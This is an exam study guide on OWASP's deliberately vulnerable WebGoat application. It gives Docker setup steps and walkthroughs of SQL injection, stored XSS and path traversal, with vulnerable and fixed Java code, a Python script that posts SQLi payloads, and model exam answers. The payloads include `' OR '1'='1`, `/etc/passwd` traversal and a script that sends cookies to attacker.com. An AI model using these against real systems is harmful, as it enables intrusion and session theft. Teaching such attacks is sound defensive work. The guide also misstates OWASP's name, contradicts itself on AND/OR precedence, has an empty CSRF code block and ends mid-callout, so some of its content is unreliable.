



# WebGoat

<!-- SECTION_1_START -->

# WebGoat: The Ethical Hacker's Training Ground

## 1. Core Technical Definition

**WebGoat** is a deliberately insecure web application developed and maintained by **OWASP (Open Worldwide Application for Security Project)**. It is a *teaching tool* designed to illustrate common server-side application security flaws in a safe, legal, and contained environment. Written primarily in **Java** on the **Spring Boot framework**, WebGoat exposes realistic vulnerabilities (such as SQL Injection, Cross-Site Scripting, and Broken Access Control) that students can exploit interactively through guided lessons.

> [!NOTE]
> **KTU 2024 Syllabus Definition (PBCST604 – Module 2: Web Security)**
> *WebGoat is an OWASP-maintained, intentionally vulnerable Java-based web application that provides a hands-on training environment for learning, demonstrating, and ethically exploiting common web application vulnerabilities like injection attacks, broken authentication, and cross-site scripting.*

### Conceptual Analogy / Intuition

Imagine a **flight simulator for pilots**. A new pilot cannot (and should not) learn to fly by attempting to take down a real Boeing 747. Instead, they practice inside a simulator that behaves like a real aircraft — including failures, turbulence, and emergency scenarios — without any real-world risk.

**WebGoat is the "flight simulator" of cyber security.**

- The "aircraft" = a fully functional web application with real users, databases, and forms.
- The "failure modes" = real vulnerabilities (SQL Injection, XSS, CSRF) embedded intentionally.
- The "trainee pilot" = the student / ethical hacker.
- The "instructor" = OWASP lessons, hints, and solution guides bundled inside the app.

Just as a simulator lets you crash safely, WebGoat lets you "break" the application safely, **without committing a crime** and **without setting up your own vulnerable server from scratch**.

> [!IMPORTANT]
> **Why it matters for KTU exams:** WebGoat is the *de facto* standard for demonstrating hands-on web security awareness. Examiners frequently test whether a student understands (a) *what* WebGoat is, (b) *why* it exists, and (c) *which* categories of attacks it simulates. Memorize the name, the parent project (**OWASP**), the underlying tech stack (**Java + Spring**), and the licensing (**GPL — free & open source**).

### Physical Constants / Standard Metrics

| Metric | Standard Value |
|---|---|
| Latest stable version | **WebGoat 8.x / 2023.x (v8.2+)** |
| Primary language | **Java 17+** |
| Framework | **Spring Boot 3.x** |
| Default port | **8080** (HTTP), **8443** (HTTPS) |
| License | **GPL v2 / Open Source** |
| Distribution | **Docker, JAR, GitHub releases** |

> [!VISUALIZATION CONTROL]
> **Concept:** WebGoat as a "Vulnerable Box" in a Safe Network
> **GeoGebra / Desmos Input Equations:** Not applicable (architectural diagram)
> **Visual Description:** Picture a regular office network where the **outer ring (Internet)** is walled off by a firewall, and inside sits one special server — coloured **red** and labelled *"WebGoat — INTENTIONALLY VULNERABLE"*. A student attacker operates from inside the same internal network, sends attack payloads to the red box, and observes the exploitation result in real time, while the rest of the network remains untouched and uncompromised.

---

<!-- SECTION_1_END -->

<!-- SECTION_2_START -->

# 2. Deep Theoretical Analysis & KTU High-Yield Formula Sheet

## 2.1 Why WebGoat Exists — The Pedagogical Need

Traditional cyber-security education used to be **theoretical**: students would read about buffer overflows, see slides, and maybe answer multiple-choice questions. The industry, however, demanded **practical, demonstrable skills**. Two specific gaps motivated WebGoat:

1. **Legal risk:** Practising attacks on real systems (e.g., a university portal) is illegal under the **IT Act 2000 (India)** and equivalent global statutes. Students needed a *legal* target.
2. **Setup complexity:** Building a vulnerable application from scratch required hours of configuration. WebGoat bundles the vulnerabilities *pre-built* so the student can focus purely on the *exploitation technique*.

> [!TIP]
> KTU loves to ask: *"Why is WebGoat used as a teaching tool rather than attacking real web servers?"* The answer has **three pillars** — **legality** (IT Act compliance), **safety** (no real victim), and **convenience** (pre-configured lessons).

## 2.2 Architectural Layers of WebGoat

WebGoat follows a standard **three-tier client–server architecture** common to most Java web apps:

| Layer | Technology | Role in WebGoat |
|---|---|---|
| Presentation Tier | HTML + Thymeleaf templates + JavaScript | Renders lessons, forms, hints |
| Application Tier | Spring Boot (Java) controllers & services | Contains the *intentional* vulnerabilities |
| Data Tier | H2 in-memory database (default) | Stores users, lesson data, exploit results |

## 2.3 Categories of Vulnerabilities Simulated

WebGoat lessons are grouped into roughly **10–14 lesson categories**. The most exam-relevant ones are summarised below.

| # | Lesson Category | CWE / OWASP Top-10 Mapping | Example Attack |
|---|---|---|---|
| 1 | **Injection (SQLi)** | CWE-89 / A03:2021 | `' OR '1'='1` in a login form |
| 2 | **Cross-Site Scripting (XSS)** | CWE-79 / A03:2021 | `<script>alert(1)</script>` in a comment |
| 3 | **Broken Authentication** | CWE-287 / A07:2021 | Password brute-force / session hijack |
| 4 | **Path Traversal** | CWE-22 / A01:2021 | `../../etc/passwd` in a file-fetch field |
| 5 | **CSRF (Cross-Site Request Forgery)** | CWE-352 | Hidden form auto-submit via image tag |
| 6 | **Insecure Direct Object References (IDOR)** | CWE-639 / A01:2021 | Manipulating URL IDs to view other users' data |
| 7 | **XXE (XML External Entity)** | CWE-611 | Malicious DTD injection in SOAP/XML |
| 8 | **Deserialization** | CWE-502 | Crafted Java object in a cookie |
| 9 | **Vulnerable Components** | A06:2021 | Exploiting old Spring/Jackson libraries |
| 10 | **Request Forgery (SSRF)** | CWE-918 | Making the server fetch internal URLs |

> [!IMPORTANT]
> **KTU 2024 Note:** The OWASP **Top 10 (2021 edition)** is the current benchmark. Whenever a question mentions a WebGoat lesson, you are expected to map it to the **OWASP Top 10:2021** category it belongs to. The older "OWASP Top 10:2017" is no longer the primary reference.

## 2.4 KTU Formula Sheet / Cheat Sheet

| Concept | Definition / Key Term | Exam-Relevant Detail |
|---|---|---|
| **OWASP** | Open Worldwide Application for Security Project | Non-profit foundation; maintains WebGoat |
| **CWE** | Common Weakness Enumeration | Numeric ID catalogue of vulnerability types |
| **SQL Injection (SQLi)** | Injecting SQL statements via user input | `' OR '1'='1` classic bypass |
| **XSS** | Injecting client-side scripts into pages | Three types: Stored, Reflected, DOM-based |
| **CSRF** | Forcing authenticated user to submit a request | Exploits cookie-based session trust |
| **Path Traversal** | Escaping the document root with `../` | Targets `File.read()` server calls |
| **H2 Database** | In-memory SQL DB used by WebGoat | Resets on restart — clean state each time |
| **Spring Boot** | Java micro-framework used by WebGoat | Auto-configures Tomcat, Hibernate, etc. |
| **Port 8080** | Default HTTP port of WebGoat | Change in `application.properties` if needed |
| **Docker image** | `webgoat/webgoat` | Recommended deployment method |
| **GPL License** | Free, open-source, copyleft | Anyone can deploy and modify |

> [!TIP]
> No "formulas" exist for WebGoat in the mathematical sense. The "formula" for a successful attack is the **payload string** that exploits a vulnerability. The most-asked payloads in KTU exams are:
> - SQLi: `' OR '1'='1`
> - XSS: `<script>alert('XSS')</script>`
> - Path Traversal: `../../../../etc/passwd`

## 2.5 Real-World Utility in Engineering

WebGoat is used in:

- **University curricula** (including KTU's PBCST604 lab component).
- **Corporate security training** for new SOC analysts and developers.
- **Capture-The-Flag (CTF)** warm-up rounds.
- **OWASP certification preparation** (e.g., the OWASP Certified Web Application Security Tester track).

In production engineering, the *inverse* of WebGoat is used: companies run **static analysis (SAST)** and **dynamic analysis (DAST)** tools (e.g., SonarQube, Burp Suite, OWASP ZAP) on their *own* codebases to detect the *same* vulnerabilities that WebGoat deliberately embeds.

---

<!-- SECTION_2_END -->

<!-- SECTION_3_START -->

# 3. Step-by-Step Setup, Exploitation Walkthroughs & Code Implementation

## 3.1 Installation of WebGoat via Docker (Most Common Method)

The KTU 2024 practical syllabus expects students to know at least **one deployment method**. Docker is recommended because it isolates WebGoat from the host OS.

### Step 1: Verify Docker Installation

```bash
docker --version
# Expected output (example): Docker version 24.0.7, build afdd53b
```

If Docker is missing, install Docker Desktop from the official Docker website and restart the system.

### Step 2: Pull the WebGoat Image

```bash
docker pull webgoat/webgoat
```

This command downloads the latest WebGoat image from Docker Hub. The image bundles **Java 17, Tomcat, and the Spring Boot application** into a single self-contained runtime.

### Step 3: Run the WebGoat Container

```bash
docker run -p 8080:8080 -p 9090:9090 -d webgoat/webgoat
```

**Parameter breakdown:**

| Flag | Purpose |
|---|---|
| `-p 8080:8080` | Maps host port 8080 to container port 8080 (WebGoat UI) |
| `-p 9090:9090` | Maps host port 9090 to container port 9090 (WebWolf companion) |
| `-d` | Detached mode — runs in the background |

### Step 4: Verify the Container is Running

```bash
docker ps
# Look for an entry with IMAGE = webgoat/webgoat and STATUS = Up X minutes
```

### Step 5: Access WebGoat in Browser

Open a web browser and navigate to:

```
http://localhost:8080/WebGoat
```

On first launch, the application prompts you to **register a local user**. This user is *not* sent to any server — it lives only in the in-memory H2 database and is destroyed when the container stops.

---

## 3.2 Exploitation Walkthrough 1 — SQL Injection (Login Bypass)

### Vulnerable Code (Server-Side — Simplified)

The following Java snippet represents the *type* of flawed code embedded in WebGoat's "SQL Injection (intro)" lesson:

```java
// Intentionally vulnerable query — DO NOT use in production
String query = "SELECT * FROM users WHERE username = '" 
               + userInput 
               + "' AND password = '" 
               + passInput 
               + "'";
```

### Exploit Payload

| Field | Payload |
|---|---|
| Username | `' OR '1'='1` |
| Password | `' OR '1'='1` |

### Resulting SQL Statement

```sql
SELECT * FROM users 
WHERE username = '' OR '1'='1' 
AND password = '' OR '1'='1'
```

Because `'1'='1'` is **always true**, the `WHERE` clause is satisfied for **every row in the users table**. The query returns all users, and the application — having no proper input validation — logs the attacker in as the *first* user in the table (typically `admin`).

### Step-by-Step Reasoning

1. The application concatenates user input directly into the SQL string. **No parameterisation, no sanitisation.**
2. The single quote `'` in the payload **terminates the original string literal**.
3. The injected `OR '1'='1'` creates a **boolean tautology** that is always true.
4. The `AND` operator binds weaker than the `OR`, so the tautology controls the result.
5. The query returns the first user record, and the Java code authenticates the session.

> [!WARNING]
> **KTU Pitfall:** Many students write the payload as `OR 1=1` *without* the leading single-quote-and-space. Without `' ` (single-quote, space, OR) the database sees `username = 'OR 1=1'` — a literal string — and finds no match. **Always include the closing single-quote to break out of the string first.**

---

## 3.3 Exploitation Walkthrough 2 — Cross-Site Scripting (Stored XSS)

### Vulnerable Code (Server-Side — Simplified)

```java
@PostMapping("/profile/comment")
public String postComment(@RequestParam String comment, Model model) {
    // INTENTIONALLY vulnerable — no HTML escaping
    commentService.save(currentUser(), comment);
    model.addAttribute("comments", commentService.findAll());
    return "profile";
}
```

The comment is **stored as-is** in the database. Later, the Thymeleaf template renders it with `th:utext` (unescaped), meaning any HTML/JavaScript inside it is executed by the browser of every visitor.

### Exploit Payload

| Field | Payload |
|---|---|
| Comment box | `<script>alert('Stored XSS — PBCST604')</script>` |

### Step-by-Step Reasoning

1. Attacker submits the comment.
2. Server stores the raw HTML string in the H2 database.
3. Next visitor loads the profile page; the template renders the raw HTML.
4. The browser parses `<script>` and executes the JavaScript payload in the victim's session.
5. In a real attack, the payload would **steal the session cookie** via `document.cookie` and POST it to an attacker-controlled server.

### Defensive Fix (For Contrast)

```java
// SAFE version — escape the output
String safeComment = HtmlUtils.htmlEscape(comment);
model.addAttribute("safeComment", safeComment);
```

And in the Thymeleaf template, use `th:text` instead of `th:utext` so the engine auto-escapes angle brackets and quotes.

---

## 3.4 Exploitation Walkthrough 3 — Path Traversal

### Vulnerable Code (Server-Side — Simplified)

```java
@GetMapping("/download")
public ResponseEntity<Resource> download(@RequestParam String filename) 
        throws FileNotFoundException {
    Path file = Paths.get("/var/webgoat/files/" + filename);
    return ResponseEntity.ok(new FileSystemResource(file.toFile()));
}
```

### Exploit Payload

| Field | Payload |
|---|---|
| `filename` param | `../../../../etc/passwd` |

### Step-by-Step Reasoning

1. The application blindly concatenates user input to a base path.
2. `..` segments traverse one directory up.
3. Four `..` segments escape the `/var/webgoat/files/` sandbox and reach the filesystem root.
4. The attacker downloads `/etc/passwd` — a critical Linux file containing user account information.
5. In a real attack, the payload would target configuration files containing database credentials, SSH keys, or environment variables.

### Defensive Fix

```java
Path base = Paths.get("/var/webgoat/files/").toAbsolutePath().normalize();
Path requested = base.resolve(filename).normalize();
if (!requested.startsWith(base)) {
    throw new SecurityException("Path traversal attempt blocked.");
}
```

The fix **normalises** the resolved path and verifies that it still lives under the base directory. If not, the request is rejected.

---

## 3.5 Python Helper — Sending an SQL Injection Payload to a Vulnerable Endpoint

The following Python script demonstrates how an attacker (or a security tester) might automate an SQLi test. It uses the `requests` library and includes strict type hints and error handling.

```python
import requests
from typing import Final
import logging

# Configure logging for visibility
logging.basicConfig(
    level=logging.INFO,
    format="%(asctime)s - %(levelname)s - %(message)s"
)

TARGET_URL: Final[str] = "http://localhost:8080/WebGoat/login"
SQLI_PAYLOAD_USERNAME: Final[str] = "' OR '1'='1"
SQLI_PAYLOAD_PASSWORD: Final[str] = "' OR '1'='1"


def attempt_sql_injection(url: str, username: str, password: str) -> int:
    """
    Sends a SQL injection payload to the target login endpoint.

    Args:
        url: Target login URL.
        username: SQLi username payload.
        password: SQLi password payload.

    Returns:
        HTTP status code of the response.

    Raises:
        requests.RequestException: If the network request fails.
    """
    payload = {
        "username": username,
        "password": password,
    }
    try:
        response = requests.post(url, data=payload, timeout=10)
        logging.info(f"Status Code: {response.status_code}")
        logging.info(f"Response Length: {len(response.text)} bytes")
        if "Welcome" in response.text or response.status_code == 302:
            logging.warning("Possible successful login bypass!")
        return response.status_code
    except requests.RequestException as e:
        logging.error(f"Request failed: {e}")
        raise


if __name__ == "__main__":
    attempt_sql_injection(TARGET_URL, SQLI_PAYLOAD_USERNAME, SQLI_PAYLOAD_PASSWORD)
```

### How the Script Works

1. **Constants** are declared with `typing.Final` so they cannot be reassigned — a best-practice signal of intent.
2. The `attempt_sql_injection` function **encapsulates the HTTP POST** with a 10-second timeout to prevent hanging.
3. **Error handling** uses `requests.RequestException` — the base class for all `requests`-library errors.
4. The response is **inspected heuristically** for success indicators like the word "Welcome" or an HTTP 302 redirect (typical of successful login flows).
5. Logging is configured at the module level for clear, timestamped output.

> [!IMPORTANT]
> This script is for **educational use only** and must **only** be run against WebGoat or systems you are explicitly authorised to test. Using it on third-party systems is a criminal offence under Section 66 of the IT Act 2000.

---

<!-- SECTION_3_END -->

<!-- SECTION_4_START -->

# 4. Structural Diagrams & Schematics

## 4.1 High-Level WebGoat Architecture

The following Mermaid block illustrates how the student, the WebGoat container, the underlying database, and the lessons all interact.



### Diagram Walkthrough

- **Client Side** — A modern browser such as Firefox or Chrome is the attacker's interface.
- **Host Machine** — Docker Engine isolates the vulnerable application from the rest of the student's computer.
- **WebGoat Container** — Contains the entire vulnerable stack: **Tomcat** (servlet container), **Spring Boot** (application framework), the **Lesson Modules** (where vulnerabilities live), and the **H2 Database** (in-memory data store).
- **Data Flow** — Attack payloads flow from browser → Tomcat → Spring Boot → Lesson Module → H2 Database. The **response path is also vulnerable**: data returned from the database is rendered without escaping, enabling XSS.

## 4.2 Attack Lifecycle Inside WebGoat



### Step-by-Step Reading

1. The student navigates to the local WebGoat URL.
2. The browser issues a standard HTTP GET.
3. WebGoat returns a login HTML form.
4. The student types an SQL injection payload.
5. The browser POSTs the payload to WebGoat.
6. WebGoat builds a raw SQL string (the vulnerability) and queries the H2 database.
7. The database returns all matching rows (because the tautology is always true).
8. WebGoat's vulnerable controller treats the request as a successful login.
9. The student sees the welcome page in the browser.
10. WebGoat's lesson tracker marks the exercise as **complete**.

## 4.3 Vulnerability Coverage Map



### Reading the Coverage Map

- **Solid lines** link each OWASP Top 10 (2021) category to the WebGoat lesson(s) that demonstrate it.
- A single lesson may demonstrate **multiple OWASP categories** — for example, a poorly written SQLi lesson could also illustrate broken access control.
- The KTU 2024 syllabus emphasises **A01, A03, and A07** as the most frequently tested.

---

<!-- SECTION_4_END -->

<!-- SECTION_5_START -->

# 5. KTU 2024 Scheme Examination Question Bank & Topic Recap

## 5.1 Part A — Short Answer Questions (3 Marks Each)

> **Q1.** [KTU University Exam — July 2023]
> **Define WebGoat. Mention any two vulnerabilities it is designed to demonstrate.** **[CO1, Remember] [3 Marks]**

**Model Answer:**

**WebGoat** is an intentionally insecure web application developed and maintained by **OWASP (Open Worldwide Application for Security Project)**. It is used as a teaching tool to help students and security professionals learn about web application vulnerabilities in a **safe, legal, and controlled environment**. The application is written in Java using the Spring Boot framework and is freely available under the GPL open-source license.

**Two vulnerabilities demonstrated by WebGoat:**

1. **SQL Injection (SQLi):** Injection of malicious SQL statements through user input fields, such as login forms, to bypass authentication or extract data. Example payload: `' OR '1'='1`.

2. **Cross-Site Scripting (XSS):** Injection of malicious client-side scripts (typically JavaScript) into web pages viewed by other users. This can lead to session hijacking, defacement, or credential theft. Example payload: `<script>alert('XSS')</script>`.

> **Valuation Key Points:**
> - Defining WebGoat and identifying OWASP as the maintainer: **1 Mark**
> - Listing SQL Injection as one vulnerability with a brief description: **1 Mark**
> - Listing XSS as the second vulnerability with a brief description: **1 Mark**

---

> **Q2.** [KTU University Exam — Dec 2023]
> **Why is WebGoat preferred over real web servers for learning ethical hacking? List any two reasons.** **[CO1, Understand] [3 Marks]**

**Model Answer:**

WebGoat is preferred over real web servers for learning ethical hacking for the following two reasons:

1. **Legal Safety:** Attacking real web servers without explicit written authorisation is a criminal offence under the **IT Act 2000, Section 66** in India, and under similar statutes worldwide (e.g., the **Computer Fraud and Abuse Act** in the USA). WebGoat is explicitly designed to be attacked, removing all legal risk for the learner.

2. **Pre-Configured Vulnerabilities:** Building a vulnerable application from scratch requires significant setup time and deep knowledge of web frameworks. WebGoat bundles realistic vulnerabilities (SQLi, XSS, CSRF, etc.) along with **guided lessons, hints, and solution walkthroughs**, allowing students to focus purely on the exploitation technique rather than environment configuration.

> **Valuation Key Points:**
> - Stating the legal-risk reduction: **1.5 Marks**
> - Stating the pre-configured / convenience benefit: **1.5 Marks**

---

## 5.2 Part B — Long Answer Questions (14 Marks Each, Internal Choice)

> **Q3. (A)** [KTU University Exam — July 2024]
> **(a)** Explain the **SQL Injection** vulnerability with a suitable example. Show how the payload `' OR '1'='1` bypasses a login form. **[CO2, Understand] [7 Marks]**
>
> **(b)** With a neat diagram, explain the **three-tier architecture** of WebGoat. Mention the technologies used at each tier. **[CO1, Apply] [7 Marks]**

### Model Solution for (a) — SQL Injection Explanation

**Definition:** SQL Injection (SQLi) is a code-injection attack in which an attacker inserts malicious SQL statements into an input field that is subsequently concatenated into a backend SQL query. When the application fails to validate or parameterise user input, the injected SQL is executed by the database, leading to authentication bypass, data theft, or even full database compromise. SQLi is classified as **CWE-89** and ranks within **OWASP Top 10:2021 — A03 (Injection)**.

**Vulnerable Code (Illustrative):**

```java
String username = request.getParameter("username");
String password = request.getParameter("password");
String query = "SELECT * FROM users WHERE username = '" 
               + username + "' AND password = '" + password + "'";
ResultSet rs = statement.executeQuery(query);
if (rs.next()) {
    session.setAttribute("user", rs.getString("username"));
    response.sendRedirect("/dashboard");
}
```

The above code directly concatenates user input into the SQL string. There is no parameterised query (`PreparedStatement`) and no input sanitisation.

**Payload Used by the Attacker:**

| Field | Payload |
|---|---|
| Username | `' OR '1'='1` |
| Password | `' OR '1'='1` |

**Resulting SQL Statement After Concatenation:**

```sql
SELECT * FROM users 
WHERE username = '' OR '1'='1' 
AND password = '' OR '1'='1'
```

**Step-by-Step Exploitation Logic:**

1. The single-quote `'` in the username payload **terminates** the original string literal.
2. The text `OR '1'='1'` introduces a **tautology** — a boolean expression that is always true.
3. SQL operator precedence makes `AND` evaluate before `OR`, so the effective condition becomes `(username = '' AND password = '') OR ('1'='1' AND '1'='1')`, which simplifies to `FALSE OR TRUE` = **TRUE**.
4. The query returns **every row** in the `users` table.
5. The Java code reads the first row and treats the request as a successful login, redirecting the attacker to the dashboard as the first user (typically `admin`).

**Defensive Fix (For Contrast):**

```java
String query = "SELECT * FROM users WHERE username = ? AND password = ?";
PreparedStatement ps = connection.prepareStatement(query);
ps.setString(1, username);
ps.setString(2, password);
ResultSet rs = ps.executeQuery();
```

`PreparedStatement` **separates code from data** — the database treats `?` as a literal value, never as executable SQL. This is the industry-standard defence.

> **Valuation Key Points for Part (a):**
> - Defining SQL Injection and mapping to OWASP CWE-89: **2 Marks**
> - Showing the vulnerable SQL concatenation code: **2 Marks**
> - Demonstrating the tautology reasoning step-by-step: **2 Marks**
> - Mentioning `PreparedStatement` as the fix: **1 Mark**

### Model Solution for (b) — Three-Tier Architecture

| Tier | Technology Used in WebGoat | Responsibility |
|---|---|---|
| **Presentation Tier** | HTML, CSS, JavaScript, **Thymeleaf** templates | Renders the user interface, lesson pages, and forms |
| **Application Tier** | **Java 17**, **Spring Boot 3.x**, **Spring MVC** | Contains the *intentionally vulnerable* business logic |
| **Data Tier** | **H2 in-memory database**, accessed via **JDBC** / **Hibernate** | Stores users, lesson progress, comment data, etc. |

**Block Diagram:**

```
┌──────────────────────────────────────────────────────────────┐
│                  PRESENTATION TIER                           │
│   HTML + Thymeleaf templates + JavaScript                    │
│   (Lesson pages, login form, hint pop-ups)                   │
└──────────────────────┬───────────────────────────────────────┘
                       │ HTTP Request / Response
                       ▼
┌──────────────────────────────────────────────────────────────┐
│                  APPLICATION TIER                            │
│   Java 17 + Spring Boot + Spring MVC                        │
│   (Vulnerable controllers, services, repositories)           │
└──────────────────────┬───────────────────────────────────────┘
                       │ JDBC / Hibernate
                       ▼
┌──────────────────────────────────────────────────────────────┐
│                  DATA TIER                                   │
│   H2 In-Memory Database (resets on container restart)        │
│   (Tables: users, comments, lesson_progress, files)          │
└──────────────────────────────────────────────────────────────┘
```

**Working Description:**

1. The **Presentation Tier** is what the student sees in the browser. Forms and buttons are rendered using Thymeleaf, a server-side template engine that integrates with Spring Boot.
2. The **Application Tier** is where all the vulnerability code lives. Each lesson is a Spring controller mapping a specific HTTP endpoint (e.g., `/WebGoat/SqlInjection/attack`).
3. The **Data Tier** is the H2 database, which is **in-memory** — meaning it does not persist after the Docker container is stopped. This is intentional: every restart gives the student a clean slate.

> **Valuation Key Points for Part (b):**
> - Naming the three tiers correctly: **1.5 Marks**
> - Identifying the correct technology at each tier: **3 Marks**
> - Drawing a clean block diagram with directional arrows: **1.5 Marks**
> - Explaining the role of each tier in WebGoat's context: **1 Mark**

---

> **Q3. (B)** [KTU University Exam — July 2024] **(Alternative Choice)**
> **(a)** What is **Cross-Site Scripting (XSS)**? Differentiate between **Stored XSS** and **Reflected XSS** with examples. **[CO2, Understand] [7 Marks]**
>
> **(b)** Explain **CSRF (Cross-Site Request Forgery)** with a real-world analogy. Mention two defences against it. **[CO1, Apply] [7 Marks]**

### Model Solution for (a) — XSS Explanation

**Definition:** Cross-Site Scripting (XSS) is a client-side code-injection attack in which an attacker injects malicious scripts (typically JavaScript) into a web page that is then viewed by other users. The victim's browser executes the script with the **same trust level as the legitimate site**, allowing the attacker to steal session cookies, deface the page, redirect to phishing sites, or perform actions on behalf of the user. XSS is **CWE-79** and is part of **OWASP Top 10:2021 — A03 (Injection)**.

**Stored XSS vs Reflected XSS — Comparison Table:**

| Feature | **Stored (Persistent) XSS** | **Reflected (Non-Persistent) XSS** |
|---|---|---|
| **Payload storage** | Saved in the database (e.g., comments, profiles) | Not stored — embedded in the URL or request |
| **Execution trigger** | Triggered automatically when victim visits the page | Triggered when victim clicks an attacker-crafted link |
| **Severity** | **High** — affects all visitors | **Medium** — requires victim interaction |
| **Example payload** | `<script>alert(document.cookie)</script>` in a comment box | `<script>alert(1)</script>` in a search query URL |
| **Real-world example** | Samy worm on MySpace (2005) | Phishing emails with crafted search links |

**Example of Stored XSS in WebGoat:**

A user posts a comment containing `<script>fetch('http://attacker.com/steal?c='+document.cookie)</script>`. Every subsequent user who views the comment executes the script, sending their session cookie to the attacker's server.

**Example of Reflected XSS in WebGoat:**

A search endpoint echoes the user's input back without sanitisation. An attacker crafts a URL: `http://victim.com/search?q=<script>alert('XSS')</script>` and tricks a victim into clicking it. The browser executes the script in the context of `victim.com`.

> **Valuation Key Points for Part (a):**
> - Defining XSS and mapping to CWE-79: **2 Marks**
> - Distinguishing Stored vs Reflected with correct characteristics: **3 Marks**
> - Giving one example payload for each type: **2 Marks**

### Model Solution for (b) — CSRF Explanation with Real-World Analogy

**Definition:** Cross-Site Request Forgery (CSRF) is an attack in which a malicious site tricks a user's browser into sending an **authenticated request** to a target site where the user is currently logged in. Because the browser automatically attaches session cookies, the target site cannot distinguish the forged request from a legitimate one. CSRF is **CWE-352** and falls under **OWASP Top 10:2021 — A01 (Broken Access Control)**.

**Real-World Analogy:**

Imagine you are logged into your **online banking website** in one browser tab. In another tab, you open a malicious page that contains the following HTML:

```html

```

Your browser, upon loading the image, **automatically issues a GET request to your bank's transfer endpoint**, and because you are still authenticated, the bank honours the request and transfers money. You never clicked anything on the bank's site.

**This is CSRF** — the attacker *forges* a request that the user unknowingly submits.

**Two Defences Against CSRF:**

1. **Anti-CSRF Tokens (Synchronizer Token Pattern):** The server embeds a **unique, unpredictable, per-session token** in every state-changing form. When the form is submitted, the server validates the token. Because the attacker's malicious site cannot read the token (due to the **Same-Origin Policy**), the forged request is rejected.

```html
<form action="/transfer" method="POST">
  <input type="hidden" name="csrf_token" value="a7F2c9e1b4..." />
  <input type="text" name="amount" />
  <button type="submit">Send</button>
</form>
```

2. **SameSite Cookie Attribute:** Modern browsers support the `SameSite` attribute on cookies. Setting `SameSite=Strict` or `SameSite=Lax` ensures that the session cookie is **not attached to cross-site requests**, effectively neutering CSRF.

```http
Set-Cookie: JSESSIONID=xyz123; Path=/; HttpOnly; SameSite=Strict
```

> **Valuation Key Points for Part (b):**
> - Defining CSRF clearly: **1 Mark**
> - Banking analogy explanation: **2 Marks**
> - Explaining the `SameSite` defence: **2 Marks**
> - Explaining the Anti-CSRF token defence: **2 Marks**

---

> [!WARNING]
